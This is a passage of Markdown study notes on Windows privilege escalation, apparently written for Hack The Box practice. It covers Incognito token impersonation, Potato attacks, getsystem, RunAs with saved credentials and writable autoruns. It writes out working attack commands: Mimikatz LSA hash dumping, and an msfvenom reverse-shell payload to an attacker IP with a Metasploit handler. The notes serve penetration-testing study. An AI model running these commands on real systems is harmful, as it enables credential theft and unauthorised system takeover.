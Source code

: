 ## Impersonation and Potato Attacks
**Token Impersonation with Incognito**
- View if the user has a privilege to impersonate token
	- `whoami /priv`
- We can load incognito from meterpreter shell.
  - `load incognito`
  - `help` - It will show incognito command
  - `list_tokens -u` : List the tokens, we can impersonate the listed users.
  - `impersonate_token marvel\\administrator`
  - `shell`
  - `whoami`
- Attempt to dump hashes as Domain Admin
	- `Invoke-Mimikatz -Command '"privilege::debug" "LSADump::LSA /patch" exit' -Computer HYDRA.marvel.local`
	- `# privilege::debug`
	- `# LSADump::LSA /patch`

**Potato Attacks**
- This attack can be possible when you have `SeImpersonnate` or `SeAssignPrimaryToken` privileges. See via `whoami /priv`
- More about Rotten Potato: https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/
- More about Juicy Potato: https://github.com/ohpe/juicy-potato
- HTB to practice: Jeeves

## Escalation Path: getsystem
- Sometimes, Meterpreter elevates you from a local administrator to the SYSTEM user using `getsystem` command
- In Meterpreter
	- `getsystem`
- More on:  https://blog.cobaltstrike.com/2014/04/02/what-happens-when-i-type-getsystem/

## Escalation Path: RunAs
- Allows a user to run specific tools and programs with different permissions than the user's current logon provides.
- View the current listed/stored credentials
	- `cmdkey /list`
- `C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\Desktop\root.txt > C:\Users\security\root.txt`
- HTB to practice: Access

## Escalation Path: Registry
**Autoruns**
- Check for if any [autoruns](https://learn.microsoft.com/en-us/sysinternals/downloads/autoruns) is available on the system.
- `Autoruns.exe`
- Analyse the programs and we can check their access with [accesschk64](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk)
- `accesschk64.exe -wvu "C:\Program Files\Autorun Program"`
- If everyone has read, write access on file that automatically runs, we can make somebody else run it as administrator.
- Using Powerup.
	- `. .\PowerUp.ps1`
	- `Invoke-AllChecks`
	- Check the output: Checking for modifidable registry autoruns and configs
- Create a reverse payload
	- `msfvenom -p windows/meterpreter/reverse_tcp lhost=<attacker-IP> -f exe -o program.exe`
- Using metasploit
	- `use multi/handler`
  - `set payload windows/meterpreter/reverse_tcp`
  - `set lhost <attacker-ip>`